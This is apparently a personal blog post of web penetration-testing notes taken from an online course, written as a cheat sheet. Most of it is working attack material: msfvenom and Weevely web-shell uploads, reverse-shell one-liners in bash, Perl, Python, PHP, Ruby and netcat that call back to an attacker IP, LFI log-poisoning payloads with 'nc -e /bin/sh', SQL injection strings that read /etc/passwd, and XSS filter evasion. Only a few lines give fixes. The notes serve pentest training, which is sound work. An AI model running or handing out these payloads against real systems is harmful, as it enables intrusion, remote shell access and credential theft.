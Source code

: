 ```yaml
---
layout: post
title: "Simple-Guide-to-Web-Pentest"
date: 2020-02-10 00:22:00 -0000
categories: jekyll
permalink: /notes/webpentest
tags: [note, htb, web]

---
```


# Simple-Guide-to-Web-Pentest
some references i made after enrolled udemy course by Zaid Sabih (Learn Website Hacking / Penetration Testing From Scratch)

**Faisalfs10x                                        9/10/2019
webbugTIPS**

### **(Information Gathering)**

- http://whois.domaintools.com = find owner target
- https://toolbar.netcraft.com/site_report?url = show technology used on target
- https://www.robtex.com = show comprehensive info target
- Discovering Websites On The Same Server = *bing ip:103.198.52.156 php?id*
- Find subdomain (subdomain.target.com) = git clone https://github.com/guelfoweb/knock.git
- Find file/directory in target website by [_dirb http://what.com.my /root/usr/share/wlist.txt_]. Try find [php.info, robots.txt, config.inc] for specific target info.
- Maltego - Discovering Websites, Hosting Provider & Emails, Servers, Domains & Files.

### **File Upload Vulnerabilities – allow upload malicious file such as php shell**

- Metasploit Command: *msfvenom -p php/meterpreter/bind_tcp LPORT=4444 LHOST=192.168.169.137 > /root/shell1.php*
- Metasploit listener: *use exploit/multi/handler; set payload php/meterpreter/bind_tcp; set RHOST <target-ip>; set RPORT 4444; run*
- Upload Weevly shell. [*weevly generate p@55w0rd! shell.php*]. Open the url to activated.
- Connect to weevly terminal. [*weevly http://test.com.my/upload p@55w0rd!*]
- Intercept and modify parameter with burpsuite. 
- How2fix: check validation of format, recreate img and rename img.

### **Code Execution Vulnerabilities – allow execution of OS command such as ping, ls, pwd.**

The following examples assume the hacker IP is 10.20.14 and use port 8080 for the connection. Therefore in all these cases you need to listen for port 8080 using the following command [*nc -vv -l -p 8080*]

- BASH = *bash -i >& /dev/tcp/10.20.14.203/8080 0>&1*
- PERL= *perl -e 'use Socket;$i="10.20.14";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'*
Python = *python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.20.14",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'*
- PHP = *php -r '$sock=fsockopen("10.20.14",8080);exec("/bin/sh -i <&3 >&3 2>&3");'*
- Ruby = *ruby -rsocket -e'f=TCPSocket.open("10.20.14",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'*
- Netcat = *nc -e /bin/sh 10.20.14 8080*

### **Local File Inclusion Vulnerabilities (LFI) – allow read file on same server, access file outside www dir.**

- Check for [*../../../../etc/passwd*] and copy the passwd hashes.
- Gain access method#1. Check for [*../../../../proc/self/environ*] and modify burpsuite Headers Tab>user Agent value from Mozilla to [*<?passthru(“nc -e /bin/sh attackerIP attackerPort”);?>*] and set listener to [*nc -vv -l -p 8888*] on terminal.
- Gain access method#2. Check for [*../../../../var/log/auth.log*] and do SSH by [*ssh “<?passthru(base64_decode(‘nc -e /bin/sh attackerIP attackerPort in base64ofgilberish’));?>”@attackerIP*] and set listener nc in terminal.

### **Remote File Inclusion Vulnerabilities (RFI) – allow access file from other host.**
- How2fix: prevent RFI by disable allow_url_fopen & allow_url_include in /etc/php5/cgi/php.ini.

### **SQLI Vulnerabilities - SQLi In Login Pages – use burpsuite to verify if it filters on client side or server side.**

- [WEAK codepractise] Discover POST try use [and, order by, ‘] and check for error handling. [123456’ and 1=1#]
- [WEAK codepractise] Try [(admin)/(admin’ #); aaa’ or 1=1 #]
- [BETTER codepractise] if client side filter, try modify parameter> password in burpsuite.

### **SQLI Vulnerabilities - Extracting Database**

- Discover GET(viewatURL) by execute at URL using [*admin’ order by 1#*] # change to %23 to check how many columns are there in db.
- If there are 5 colums then use [*union select 1, database(), user(), version(), 5*]

### **SQLI Vulnerabilities - Advanced Exploitation – blind sqli mean not show any error msg**
- Check manually for blind sqli in URL for TRUE [*1’ and 1=1%23*], FALSE [1’ and 1=0%23].
TRUE [1’ order by 1%23], FALSE [1’ order by 1000000000%23].
TRUE [1’ union select table_name,2 from information_schema.tables%23].
[1’ union select null,load_file(‘/etc/passwd’),null,null,null%23].
- *Sqlmap -u http://injectablelink.com.org* . use ‘--sql-shell’ parameter to run sql command.

### **XSS Vulnerabilities**

- Try basic [*<script>alert(“testedXSS”)</script>*]
- If filter, try more [*<sCripT>alert(“testedXSS”)</scRipt>*]
- Refer *https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet*

